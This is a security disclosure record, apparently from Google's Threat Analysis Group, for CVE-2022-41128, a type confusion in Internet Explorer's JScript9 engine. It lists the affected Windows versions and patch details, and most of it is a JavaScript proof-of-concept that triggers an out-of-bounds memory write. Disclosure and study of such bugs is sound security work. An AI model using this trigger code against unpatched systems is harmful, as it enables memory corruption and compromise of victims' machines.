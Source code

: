 # CVE-2022-41128: Type confusion in Internet Explorer's JScript9 engine
*Benoît Sevens and Clément Lecigne, Google's Threat Analysis Group (TAG)*

## The Basics

**Disclosure Date:** 8 November 2022

**Product:** Microsoft Windows

**Advisory:** 

* Security bulletin: https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2022-41128

**Affected Versions:** Windows 7 through 11 and Windows Server 2008 through 2022, prior to the November 2022 patches

**First Patched Version:** Windows 7 through 11 and Windows Server 2008 through 2022 with November 2022 patches

**Issue/Bug Report:** N/A

**Patch CL:** N/A

**Bug-Introducing CL:** N/A

**Reporter(s):** Clément Lecigne and Benoît Sevens of Google's Threat Analysis Group

## The Code

**Proof-of-concept:**

```
<script>

function boom(m) {
    var q = d;
    var l = q[0];
    for (var o = 0; o < 1; o++) {
        if (m) {
            for (var n = 0; n < 1; n++) {
                q = e;
            }
            q[-1] = 1;
        }
    }
    if (m) {
        q[0] = 0x42424242; // write 0x42424242 at <where>
    }
}

var g = new ArrayBuffer(16);
var d = new Int32Array(g);

var e = Object({
    a: 1,
    b: 2,
    c: 3,
    d: (0x414141 - 1) / 2,  // <where> for 64-bit jscript9.dll
    e: (0x414141 - 1) / 2,  // <where> for 32-bit jscript9.dll
});

for (var h = 0; h < 100000; h++) {
    boom(false);
}

```